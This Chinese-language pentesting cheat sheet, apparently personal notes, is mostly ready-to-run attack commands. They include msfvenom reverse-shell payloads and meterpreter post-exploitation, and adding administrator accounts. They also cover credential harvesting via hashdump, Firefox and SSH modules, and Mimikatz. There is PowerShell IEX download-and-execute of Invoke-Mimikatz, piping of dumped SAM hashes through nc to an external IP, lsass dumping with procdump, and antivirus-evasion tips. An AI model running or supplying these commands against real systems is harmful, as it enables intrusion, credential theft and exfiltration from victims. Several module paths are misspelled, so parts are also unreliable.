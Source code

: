 

## 站库分离, 只拿到web怎样连数据库
sql ip:.1.2   -- web ip: .1.3
通过转发 比如1521 通过将.1.3 端口转发到到本机 msf

```
use xxxx
use exploit/multi/script/web_delivery
show payloads
set payload windows/x64/meterpreter/reverse_tcp
set payload windows/meterpreter/reverse_tcp
set lhost 172.18.8.5
set lport 4444
msf5 > show targets

meterpreter > background
msf5 > jobs
handler -H 192.168.80.103 -P 1124 -p windows/meterpreter/reverse_tcp
sessions -i 1  # 选session
meterpreter > ps
meterpreter > migrate
meterpreter > shell
meterpreter > 

```
shell

```
net user xx a /add  # 可能被360阻止
```


## 生成程序
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=150.158.137.72 lport=9988 -f exe -o demo.exe
msf > use exploit/multi/handler
msf exploit(multi/handler) > show options
msf exploit(multi/handler) > set lhost 150.158.137.72
msf exploit(multi/handler) > set lport 9988
msf exploit(multi/handler) > run
meterpreter > upload /root/fscan64.exe
# 然后 ipconfig 查看网段, fscan扫描 横向移动
```

## 一些命令
开后3389远程桌面:
```bash
run post/windows/manage/enable_rdp
run getgui-e
```
可以利用该命令,在目标机器上添加用户:
```bash
run getgui -u admin -p admin
net localgroup administrators admin/add
```
远程连接桌面
`rdesktop-u username-p password ip`

查看远程桌面
```
screenshot
use espia
screen grab
screen share
```
删除指定账号

`run post/windows/manage/delete user USERNAME=admin`

### 数据包抓取

抓包:
```bash
Load sniffer
sniffer_interfaces
sniffer_start 2
sniffer_dump 2 1.cap
```

解码:

```bash
Use auxiliary/sniffer/psnuffle
Set PCAPFILE 1.cap
exploit
```

### 口令破解

```
hashdump  // 需要system权限
use post/windows/gather/hashdump //system权限的meterpreter
set session 1
exploit //结果保存在tmp目录下

use post/windows/gather/smart_hashdump
set session 1
exploit

getpid  // 查看自己的id
getsystem
ps
migrate <pid> // 迁移到system进程再hashdump
```

格式:
用户名称: RID: LM-HASH 值: NT-HASH值

### Other
查看目标环境信息:
`run post/multi/gather/env`

查看firefox中存储的账号密码
`run post/multi/gather/firefox_creds`

查看ssh账号密码的密文信息,证书信息:
`run post/multi/gather/ssh_creds`

收集win集成信息
```
run winenum
/root/.msf4/logs/scripts/winenum
```

## MSF主机发现
模块位于源码路径的 modules／auxiliary／scanner／discovery／
主要有:
arp_sweep
ipv6_mulitcast_ping
ipv6_neighbor
ipv6_neighbor_router_advertisement
udp_probe
udp_sweep
## MSF端口扫描
msf> search portscan
auxiliary/scanner/protscan/ack              //通过ACK扫描的方式对防火墙上未被屏蔽的端口进行探测
auxiliary/scanner/protscan/ftpbounce         //通过FTP bounce攻击的原理对TCP服务进行枚举,一些新的FTP服务器 软件能很好的防范此攻击,但在旧的系统上仍可以被利用
auxiliary/scanner/portscan/syn         //使用发送TCP SYN标志的方式探测开放端口
auxiliary/scanner/protscan/tcp         //通过一次完整的CP连接来判断端口是否开放最准确但是最慢
auxiliary/scanner/protscan/xmas         //一种更为隐秘的扫描方式,通过发送FIN·URG标志,能够躲避一些高级的TCP标记检测器的过滤

一般情况下推荐使用syn端口扫描器·速度较快·结果准确·不易被对方察觉
syn扫描器的使用
```bash
>use aux iary/scanner/prot scan/syn
>set RHOSTS 10.10.10.10/ 24
>set THREADS 20
>run
```

## 服务扫描与查点

确定开放端口后,对相应端口上所运行的服务信息进行挖掘
在Metasploit的Scanner辅助模块中,用于服务扫描和查点的工具常以[service_name]_version和
```
[service_name]_login命名
[service_name]_version可用于遍历网络中包含了某种服务的主机,并进一步确定服务的版本.
[service_name]_login 可对某种服务进行口令探测攻击
```
在msf终端中可以输入:
```bash
search name : _version
```
查看所有可用的服务查点模块


# 凭证信息收集

## 凭证获取工具
常用来获取windows密码的工具:
1、mimikatz
2、wce
3、pwddump7
4、ophcrack
5、procdump+mimikatz
6、LaZagne

密码HASH
LM & NTLM

Windows本地hash:
https://www.secpulse.com/archives/65256.html

Vindows系统下hash密码格式:
用户名称:RID:LM-HASH值:NT-HASH值

## Mimikatz
mimikatz For Win10T载:

https://github.com/gentilkiwi/mimikatz/releases

本地非交互式凭证获取:
```ts
mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" " exit"
```

__1x版本:__
```sh
privilege::debug       //提升权限
inject::process lsass.exe sekurlsa.dl   //注入sekurlsa.dl到lsass.exe进程里
@getLogonPasswords     //获取密码
```

__Powershell远程加载mimikatz脚本__
```ts
// IEX是加载到内存中执行的。
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds"
```
杀软绕过:
1.大写小写。
2.用+号 拼凑。。
[Mimikatz的18种免杀姿势及防御策略](https://www.freebuf.com/articles/system/234365.html)
```ts
v2.0 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
v2.2 https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/Invoke-Mimikatz.ps1
```

输出重定向

```
攻击机: nc -lvvp 6666 > pass123.txt
靶机  : mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit" | nc.exe -v 47.101.214.85 6666
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://127.0.0.1/f');Get-PassHashes // 不好使

### FAQ 不能执行 powershell远程命令
```ps
set-ExecutionPolicy RemoteSigned
或 Set-ExecutionPolicy -Scope CurrentUser
get-ExecutionPolicy
```

## 导出密码的几种方式
https://www.daimajiaoliu.com/daima/486f56b9d900403

```ts
procdump64.exe -accepteula -ma lsass.dmp
mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```